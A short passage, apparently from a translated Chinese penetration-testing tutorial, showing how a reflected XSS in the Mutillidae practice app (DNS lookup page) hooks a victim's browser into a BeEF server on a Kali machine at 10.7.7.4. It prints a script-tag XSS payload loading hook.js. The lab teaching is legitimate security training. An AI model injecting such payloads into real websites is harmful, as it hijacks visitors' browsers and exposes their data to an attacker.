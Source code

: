 1.  攻击者的下一步将是利用持久性 XSS 或诱使用户点击指向恶意站点或易受 XSS 攻击的站点的链接。

现在，作为受害者，转到 Mutillidae（OWASP 2013 | A3 - 跨站脚本（XSS） | 反射（一级） | DNS 查找）并在主机名/IP 文本框中提交以下内容：

```
      <script src="img/hook.js"></script> 
```

![](img/00183.jpeg)

1.  再次，`10.7.7.4`是运行 BeEF 的服务器的地址。在这种情况下，是您的 Kali Linux 机器。您可以看到结果似乎是空的，但如果您浏览到 BeEF 控制面板，您将看到您有一个新的浏览器连接。在详细信息选项卡中，您可以看到有关此浏览器的所有信息：

![](img/00184.jpeg)
